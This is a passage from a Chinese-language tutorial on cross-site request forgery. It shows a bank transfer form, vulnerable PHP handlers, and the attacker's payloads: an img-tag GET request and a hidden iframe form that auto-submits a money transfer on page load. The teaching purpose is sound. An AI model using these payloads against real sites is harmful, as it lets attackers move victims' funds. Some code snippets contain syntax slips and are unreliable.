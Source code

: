 #### 		示例2：

​		为了杜绝上面的问题，银行决定改用POST请求完成转账操作。银行网站A的WEB表单如下：

```html
　　<form action="Transfer.php" method="POST">
　　　　<p>ToBankId: <input type="text" name="toBankId" /></p>
　　　　<p>Money: <input type="text" name="money" /></p>
　　　　<p><input type="submit" value="Transfer" /></p>
　　</form>
```

​		后台处理页面Transfer.php如下：

```php
　　<?php
　　　　session_start();
　　　　if (isset($_REQUEST['toBankId'] &&　isset($_REQUEST['money']))
　　　　{
　　　　    buy_stocks($_REQUEST['toBankId'],　$_REQUEST['money']);
　　　　}
　　?>
```

​		而网站B，还是包含那段HTML代码：

```html
<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
```

​		和示例1中的操作一样，你首先登录了银行网站A，然后访问危险网站B，结果.....和示例1一样，你再次没了1000块～T_T，这次事故的原因是：银行后台使用了$_REQUEST去获取请求的数据，而$_REQUEST既可以获取GET请求的数据，也可以获取POST请求的数据，这就造成了在后台处理程序无法区分这到底是GET请求的数据还是POST请求的数据。在PHP中，可以使用$_GET和$_POST分别获取GET请求和POST请求的数据。在JAVA中，用于获取请求数据request一样存在不能区分GET请求数据和POST数据的问题

#### 		示例3：

​		这次，银行A吸取前两次的经验，决定把获取请求数据的方法也改了，改用$_POST，只获取POST请求的数据，后台处理页面Transfer.php代码如下：

```php
　　<?php
　　　　session_start();
　　　　if (isset($_POST['toBankId'] &&　isset($_POST['money']))
　　　　{
　　　　    buy_stocks($_POST['toBankId'],　$_POST['money']);
　　　　}
　　?>
```

​		但是，网站B也不善罢甘休，它把代码改为：

```html
<html>
　　<head>
<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
```